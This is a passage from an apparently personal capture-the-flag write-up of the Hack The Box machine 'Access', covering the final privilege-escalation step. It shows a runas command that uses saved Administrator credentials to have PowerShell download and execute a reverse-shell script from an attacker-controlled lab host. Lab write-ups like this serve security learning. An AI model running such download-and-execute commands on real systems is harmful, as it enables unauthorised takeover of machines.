 I copied the example and changed it to my IP and paste it at the bottom of the file.
![b1b602b986362e8727ebbe25b7b21232.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-access/bf400a7b73e0410ca78a0d5418b14d2b.png)

### Step 3:

How to use `runas`?
***Reference:***<https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525(v=ws.11)>

I Started my Netcat listener.

```runas /user:ACCESS\Administrator /savecred "powershell iex(new-object net.webclient).downloadstring('http://10.10.14.3:8000/Invoke-PowerShellTcp.ps1')"```

![2a49fb6f23a4471feb5d7c6dd25223db.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-access/cc43dc6d229348ddac78b8df775b6d68.png)
We Owned root!!






